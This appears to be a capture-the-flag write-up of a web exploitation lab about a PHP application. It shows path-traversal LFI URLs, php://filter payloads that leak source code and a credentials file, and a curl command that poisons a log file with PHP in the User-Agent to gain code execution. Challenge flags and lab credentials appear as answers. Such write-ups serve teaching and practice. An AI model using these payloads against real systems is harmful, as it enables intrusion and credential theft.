 # `[Web Exploitation]` Patch Management is Hard

## Story
>During a routine security audit before the Incident, McSkidy discovered some recovery passwords on an old server. She created a ticket to decommission this server to reduce this security vulnerability. The Elf assigned to fix this vulnerability kept pushing off the task, and this never got done. Luckily, some of those recovery keys can be used to save some systems.
>
>Unfortunately, the only way to access the server is through an old web application. See if you can pull out those recovery keys to help McSkidy with her pursuit to save Christmas.

Deploy the attached VM and look around. What is the entry point for our web application? `***`

When I opened the webpage, I could see the entry point in the URL: https://10-10-140-173.p.thmlabs.com./index.php?**_err_**=error.txt

<details>
  <summary>Answer:</summary>

```
err
```
</details>
### Use the entry point to perform LFI to read the /etc/flag file. What is the flag? `***{********************************}`

Using this I was then able to change the url to show what I wanted it to:

`https://10-10-140-173.p.thmlabs.com/index.php?err=./../../../../../etc/flag`

<details>
  <summary>Answer:</summary>

```
THM{d29e08941cf7fe41df55f1a7da6c4c06}
```
</details>

### Use the PHP filter technique to read the source code of the index.php. What is the `$flag` variable's value? `***{********************************}`

Using the same method as above eccept also using PHP filters, I navigated to the following address:
`https://10-10-140-173.p.thmlabs.com./index.php?err=php://filter/convert.base64-encode/resource=index.php`

This spat out a bunch of base64 encoded text, which I then used CyberChef to convert from. The flag was easily viewable at the top.

<details>
  <summary>Answer:</summary>

```
THM{791d43d46018a0d89361dbf60d5d9eb8}
```
</details>

>McSkidy forgot his login credential. Can you help him to login in order to recover one of the server's passwords?

> Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. 
### What are the username and password? `*******:************`

Same as above really, just changed the location:

`https://10-10-140-173.p.thmlabs.com./index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`

This gave me the info.

<details>
  <summary>Answer:</summary>

```
McSkidy:A0C315Aw3s0m
```
</details>

> Use the credentials to login into the web application. Help McSkidy to recover the server's password. 

### What is the password of the flag.thm.aoc server? `***{********************************}`

Logged in using those credentials, then clicked on Password Recovery. Passwords were listed in plain text.

<details>
  <summary>Answer:</summary>

```
THM{552f313b52e3c3dbf5257d8c6db7f6f1}
```
</details>

> The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. 

### What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log. `************************************************`

Using their instructions, I was able to use `curl` in a terminal:
```
curl -A "<?php phpinfo();?>" http://10-10-140-173.p.thmlabs.com/login.php
```

Then using the first stage of the LFI, I was able to execute the php payload sent in the User-Agent `https://10-10-140-173.p.thmlabs.com/index.php?err=./includes/logs/app_access.log`

The hostname was in the system category of the table.

<details>
  <summary>Answer:</summary>

```
lfi-aoc-awesome-59aedca683fff9261263bb084880c965
```
</details>